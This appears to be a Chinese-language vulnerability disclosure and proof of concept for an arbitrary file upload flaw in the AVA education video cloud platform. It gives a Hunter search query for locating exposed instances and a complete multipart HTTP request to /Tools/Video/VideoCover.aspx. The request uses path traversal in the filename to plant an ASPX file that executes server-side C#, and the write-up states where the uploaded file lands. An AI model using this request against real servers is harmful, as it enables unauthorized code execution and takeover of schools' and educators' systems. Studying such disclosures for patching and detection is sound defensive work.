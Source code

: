 # 一、漏洞简介
奥威亚教育视频云平台是<font style="color:rgb(62, 62, 62);">一种教育技术解决方案，致力于提供高质量的在线教育视频服务。该平台为教育机构和教师提供了一个全面的视频管理和交流平台。奥威亚教育视频云平台VideoCover存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。</font>

# <font style="color:rgb(62, 62, 62);">二、影响版本</font>
+ 奥威亚教育视频云平台

# 三、资产测绘
+ hunter`web.body="/CSS/NewtonTheme/assets/app.css"`
+ 特征

![](images/1701926110892-0037e325-11cf-4a83-a756-d2f2617713e0.png)

# 四、漏洞复现
```java
POST /Tools/Video/VideoCover.aspx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 301
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="/../../../AVA.ResourcesPlatform.WebUI/stc.aspx"
Content-Type: image/png

<%@ Page Language="C#"%><% Response.Write(111*111);System.IO.File.Delete(Server.MapPath(Request.Url.AbsolutePath)); %>
--00content0boundary00--
```

![](images/1701926539948-8502de8a-b4d7-451d-975b-f153cc4a7d3a.png)

上传文件位置

```java
/stc.aspx
```

![](images/1701926563732-a63857b9-02be-447a-b6e8-8dca96830271.png)

